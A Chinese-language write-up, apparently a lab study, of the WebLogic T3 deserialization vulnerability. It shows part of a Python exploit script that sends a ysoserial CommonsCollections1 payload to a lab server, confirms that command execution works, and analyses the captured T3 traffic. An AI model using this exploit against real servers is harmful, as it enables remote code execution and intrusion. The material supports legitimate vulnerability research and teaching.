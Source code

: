 ```
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        # return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload
    payload = struct.pack(">I", len(payload)) + payload[4:]
    sock.send(payload)


if __name__ == "__main__":
    ip = "192.168.121.132"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/success"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)
```

因为这里的weblogic里面带有CC1的链子

![image-20220420154817590](images/8.png)

我使用的7u21的jdk是可以打的，直接用ysoserial生成的链子作为请求主体的序列化数据，在目标处反序列化执行命令，创建一个新的文件

![image-20220420151345575](images/9.png)

可以看到已经执行成功了，接下来就是wireshark抓包分析下流量了

![image-20220420151411026](images/10.png)

这就是整个数据包的内容，下面是请求主体

- HL: 标识后边发起的T3协议头长度
- AS: 标识了发送的序列化数据的容量

查看十六进制数据可以发现

客户端与服务端通信的数据均以0a结尾，也就是以`\n\n`结尾

![image-20220420151605848](images/11.png)

后面第二部分到第七部分都是以`ac ed 00 05`开头，也就是序列化数据，在才开始学java反序列化的时候也看到过

**T3协议数据交换过程**
